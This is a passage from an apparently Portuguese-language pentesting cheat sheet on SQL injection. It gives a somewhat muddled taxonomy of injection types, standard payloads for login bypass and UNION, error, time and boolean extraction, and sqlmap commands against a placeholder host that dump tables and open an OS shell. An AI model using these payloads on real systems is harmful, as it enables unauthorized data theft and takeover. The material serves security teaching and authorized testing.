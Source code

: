 ### SQL Injection

#### Tipos de SQL Injection
```
SQL Injection Types:
├── Union-based SQL Injection
│   ├── Error-based injection
│   ├── Boolean-based blind injection
│   └── Time-based blind injection
├── Error-based SQL Injection
│   ├── MySQL error messages
│   ├── MSSQL error messages
│   └── Oracle error messages
├── Boolean-based Blind SQL Injection
│   ├── True/False responses
│   ├── Content-length analysis
│   └── Response time analysis
└── Time-based Blind SQL Injection
    ├── Sleep() functions
    ├── Heavy queries
    └── DNS lookups
```

#### Técnicas de SQL Injection
**Manual SQL Injection:**
```sql
-- Authentication bypass
admin' --
admin' OR '1'='1' --

-- Union-based information gathering
' UNION SELECT 1,database(),version() --
' UNION SELECT 1,table_name,column_name FROM information_schema.columns --

-- Error-based injection
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --

-- Time-based blind injection
' AND (SELECT * FROM (SELECT SLEEP(5))x) --

-- Boolean-based blind injection
' AND (SELECT SUBSTRING(@@version,1,1))='5' --
```

**SQLmap Automation:**
```bash
# Basic SQL injection test
sqlmap -u "http://target.com/page.php?id=1"

# Database enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Table enumeration
sqlmap -u "http://target.com/page.php?id=1" -D database --tables

# Column enumeration
sqlmap -u "http://target.com/page.php?id=1" -D database -T table --columns

# Data dump
sqlmap -u "http://target.com/page.php?id=1" -D database -T table --dump

# OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell
```